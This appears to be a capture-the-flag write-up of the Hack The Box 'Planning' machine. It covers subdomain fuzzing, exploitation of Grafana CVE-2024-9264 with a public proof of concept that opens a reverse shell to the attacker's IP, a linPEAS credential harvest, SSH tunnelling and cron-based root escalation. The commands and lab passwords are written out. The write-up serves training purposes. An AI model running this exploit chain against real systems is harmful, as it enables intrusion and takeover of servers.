 # Planning Machine Writeup

The nmap scan gives us two open ports; SSH (Port 22) and nginx web server (Port 80).
nmap -sCV -T4 10.10.11.68
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.

python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.131 --reverse-port 1234

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image025.png)

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.

ssh -L 8001:localhost:8000 enzo@10.10.11.68

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
